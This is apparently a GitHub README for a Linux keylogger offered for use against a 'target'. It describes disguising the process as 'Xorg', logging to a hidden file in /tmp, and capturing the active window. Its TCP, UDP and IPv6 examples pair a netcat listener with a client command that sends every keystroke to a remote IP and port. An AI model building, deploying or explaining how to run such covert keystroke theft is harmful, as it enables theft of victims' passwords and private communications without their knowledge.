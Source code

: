# Simple_Local&Remote_Keylogger<br>

##DESCRIPTION:

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.
```
Usage: #./slrk [OPTIONS]
```

##OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

##EXAMPLE:

	[TCP]
	
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[UDP]
	
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[IPv6]
	
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	
